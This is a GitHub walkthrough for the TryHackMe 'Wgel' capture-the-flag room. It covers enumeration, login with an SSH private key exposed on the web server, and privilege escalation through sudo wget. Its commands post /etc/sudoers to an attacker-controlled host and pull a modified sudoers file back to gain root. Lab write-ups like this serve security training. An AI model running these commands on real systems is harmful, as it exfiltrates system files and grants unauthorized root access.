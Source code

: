 # Wgel CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Wgel** CTF challenge on [TryHackMe](https://tryhackme.com/room/wgelctf). 
---

we see 2 open ports: 22 and 80

![scn](imgs/scn.png "scn")

we can find default Apache webpage with comment that might reveal potential username : jessie

![comm](imgs/comm.png "comm")

using feroxbuster to discover hidden folders, we found `/sitemap`

![ferox1](imgs/ferox1.png "ferox1")

enumerating the `/sitemap` folder 

![ferox2](imgs/ferox2.png "ferox2")

now we found `/sitemap/.ssh`

there is RSA private key on the website

![ssh](imgs/ssh.png "ssh")

i tried to login with this key as jessie via ssh and it worked

![sshl](imgs/sshl.png "sshl")

we need to find user flag, using simple find command: 

```
find / -type f -name "user*"
```

user flag is in `/home/jessie/Documents/`

![user](imgs/user.png "user")

sudo -l output:

![sudol](imgs/sudol.png "sudol")

checking GTFObins for PE vector

![gtfo](imgs/gtfo.png "gtfo")

this doesnt seem to work

to get root shell we need to send /etc/sudoers to our own machine, modify the file and send modified file back to the victim

first we start nc listiner to get sudoers file and then we run this command on victim:

```
sudo /usr/bin/wget --post-file=/etc/sudoers 10.14.X.X:4445
```

![nc](imgs/nc.png "nc")

we got original file

now we modify the sudoers file to let us sudo su without password

![sudoers](imgs/sudoers.png "sudoers")

now we need to swap the current sudoers file with changed one from our machine using:

```
$ cd /etc
$ sudo /usr/bin/wget 10.14.X.X:8081/sudoers --output-document=sudoers
```

now we can run sudo su, we now have root access and root flag

![root](imgs/root.png "root")

# MACHINE PWNED
